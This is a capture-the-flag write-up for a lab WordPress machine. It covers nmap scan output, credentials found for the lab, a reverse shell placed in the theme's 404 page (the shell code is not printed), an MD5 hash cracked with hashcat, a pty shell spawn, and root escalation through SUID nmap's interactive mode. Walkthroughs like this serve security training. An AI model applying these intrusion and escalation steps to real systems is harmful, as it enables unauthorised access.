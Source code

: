 # Scannings

## Target 
```
Not shown: 65532 filtered ports
Reason: 65532 no-responses
PORT    STATE  SERVICE  REASON         VERSION
22/tcp  closed ssh      reset ttl 63
80/tcp  open   http     syn-ack ttl 63 Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http syn-ack ttl 63 Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
```

Web server at ports 80 & 443

![404 Page]()./img/wp_404.png

404 page shows us that this is a WP blog having a login page at
*http://10.10.252.56/wp-login.php*

Brute Force?

## Other hosts
Nmap scan report for **10.10.152.90**
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http          syn-ack ttl 63 WebSockify Python/3.6.9
111/tcp  open  rpcbind       syn-ack ttl 63 2-4 (RPC #100000)
3389/tcp open  ms-wbt-server syn-ack ttl 63 xrdp
5901/tcp open  vnc           syn-ack ttl 63 VNC (protocol 3.8)
6001/tcp open  X11           syn-ack ttl 63 (access denied)
8000/tcp open  http-alt      syn-ack ttl 62 ecstatic-3.3.2

Nmap scan report for **10.10.152.95**
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for **10.10.152.203**
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5901/tcp open  vnc           syn-ack ttl 63 VNC (protocol 3.8)
6001/tcp open  X11           syn-ack ttl 63 (access denied)
8000/tcp open  http-alt      syn-ack ttl 62 ecstatic-3.3.2


# First flag
/robots.txt reveals the first flag, which is accessible under /flag-1-of-3.txt

![Robots](./img/robots.png)


# Second flag

`elliot:ER28-0652`

As elliot is administrator, we can generate a new password for the mich05654 user:
`mich05654:ayckn(GK9uXur3#Vm0yym)yr`

After gaining access to the machine by adding a reverse shell to the wordpress 404 page, we see that the next key is in directory /home/robot.
However, we do not have access to the file, but to a file containing a user and password (in md5):
`robot:c3fcd3d76192e4007dfb496cca67e13b`

Cracking the hash with HashCat

`> hashcat -a 0 -m 0 obtained_hash.txt /usr/share/wordlists/rockyou.txt`
`> abcdefghijklmnopqrstuvwxyz`

We then use python to obtain a terminal to login to the robot user
`echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py`
`python /tmp/asdf.py`

# Third flag

- Brainstorm
- - X SSH into other machines with obtained credentials 
- - X Check HTTP servers of other hosts
- - [->] Obtain root on original machine
- - X Scan ALL ports of other hosts
- - X Find vuln for ecstatic/CyberChef

Enumerating the target machine we find: 
![NMAP SUID](./img/nmap)

This seems to be an old version of nmap, not providing a scripting engine.
However, the interactive mode is available.
We can run:  
```
$ nmap --interactive
$ ! ls /root/
$ ! cat /root/key-3-of-3.txt
```